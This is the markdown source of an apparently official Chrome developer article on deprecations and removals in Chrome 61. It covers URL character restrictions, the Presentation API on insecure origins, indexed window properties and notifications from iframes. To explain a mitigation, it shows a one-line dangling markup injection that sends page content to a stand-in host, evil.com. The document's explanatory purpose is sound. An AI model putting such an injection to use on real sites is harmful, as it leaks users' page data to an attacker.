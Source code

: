 project_path: /web/_project.yaml book_path: /web/updates/_book.yaml description: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, security improvements, further webkit deprecations, and more.

{# wf_blink_components: Blink>PresentationAPI,Blink>JavaScript #} {# wf_updated_on: 2018-01-08 #} {# wf_published_on: 2017-08-03 #} {# wf_tags: deprecations,removals,chrome61 #} {# wf_featured_image: /web/updates/images/generic/warning.png #} {# wf_featured_snippet: A round up of the deprecations and removals in Chrome 61 to help you plan. In this version, more restrictions on insecure origins and a change to the shadow-piercing descendant combinator. #}

# Deprecations and Removals in Chrome 61 {: .page-title }

{% include "web/_shared/contributors/josephmedley.html" %}

In nearly every version of Chrome, we see a significant number of updates and improvements to the product, its performance, and also capabilities of the Web Platform. This article describes the deprecations and removals in Chrome 61, which is in beta as of August 3. This list is subject to change at any time.

## Security and Privacy

### Block resources whose URLs contain '\n' and '&lt;' characters.

There is a type of hacking called *dangling markup injection* in which a truncated URL is used to send data to an external endpoint. For example, consider a page containing `<img src='https://evil.com/?`. Because the URL has no closing quote, browsers will read to the next quote that occurs and treat the enclosed characters as if it were a single URL.

Chrome 61 mitigates this vulnerability by restricting the character sets allowed in `href` and `src` attributes. Specifically, Chrome will stop processing URLs when it encounters new line characters (`\n`) and less than characters (`<`).

Developers with a legitimate use case for new line and less than characters in a URL should instead escape these characters.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/KaA_YNOlTPk/discussion) &#124; [Chromestatus Tracker](https://www.chromestatus.com/feature/5735596811091968) &#124; [Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=680970)

### Deprecate and remove Presentation API on insecure contexts

It's been found that on insecure origins, the Presentation API can be used as a hacking vector on insecure origins. Since displays don't have address bars the API can be used to spoof content. It's also possible to exfiltrate data from running presentation.

In aligning with Blink’s intention to [remove powerful features on insecure origins](https://www.chromium.org/Home/chromium-security/deprecating-powerful-features-on-insecure-origins), we plan to deprecate and remove support for the Presentation API on insecure contexts. Starting in Chrome 61, `PresentationRequest.start()` will no longer function on insecure origins.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/lumj0lVdtHA/discussion) &#124; [Chromestatus Tracker](https://www.chromestatus.com/feature/5766218384408576) &#124; [Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=733381)

## JavaScript

### Disallow defining of indexed properties on windows

Previously some browsers allowed for JavaScript assignments like the following:

    window[0] = 1;
    

The [current HTML spec notes](https://html.spec.whatwg.org/multipage/window-object.html#windowproxy-defineownproperty) that this is an explicit violation of the JavaScript spec. As such, this ability is removed in Chrome 61. As of February 2016, Firefox is already in compliance.

[Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695385)

### Remove usage of notifications from insecure iframes

Note: Removal was pushed to Chrome 62.

Permission requests from iframes can confuse users since it is difficult to distinguish between the containing page's origin and the origin of the iframe that is making the request. When the requests scope is unclear, it is difficult for users to judge whether to grant or deny permission.

Disallowing notifications in iframes will also align the requirements for notification permission with that of push notifications, easing friction for developers.

Developers who need this functionality can open a new window to request notification permission.

[Intent to Remove](https://groups.google.com/a/chromium.org/d/topic/blink-dev/n37ij1E_1aY/discussion) &#124; [Chromestatus Tracker](https://www.chromestatus.com/feature/6451284559265792) &#124; [Chromium Bug](https://bugs.chromium.org/p/chromium/issues/detail?id=695693)

{% include "web/updates/_shared/deprecations-policy.html" %}